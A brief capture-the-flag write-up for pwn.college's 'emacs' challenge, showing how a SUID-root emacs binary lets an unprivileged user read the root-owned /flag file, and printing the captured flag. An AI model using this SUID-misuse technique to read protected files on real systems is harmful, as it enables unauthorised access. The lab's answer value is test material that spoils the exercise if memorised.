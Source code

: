 # Challenge Name: emacs
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Begineer
**Date**: 2025-07-15  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/emacs`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/emacs
```

output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/emacs
```

-The `s` in `-rws` indicates it's a SUID binary.
-`emacs` runs with **root privileges**.

## 🚀 Exploitation

The `emacs` is a powerful, fully-featured text editor (and programming environment) in Linux/Unix systems. It's like Vim’s geeky, customizable cousin — often described as an operating system disguised as a text editor, so we can just use `emacs` to read the flag.

```bash
emacs /flag
```

Output:
```
pwn.college{gbXb3IurzbJrhJnbnVQWdL2TXMp.dBTNxwSM0IzMyEzW}
```

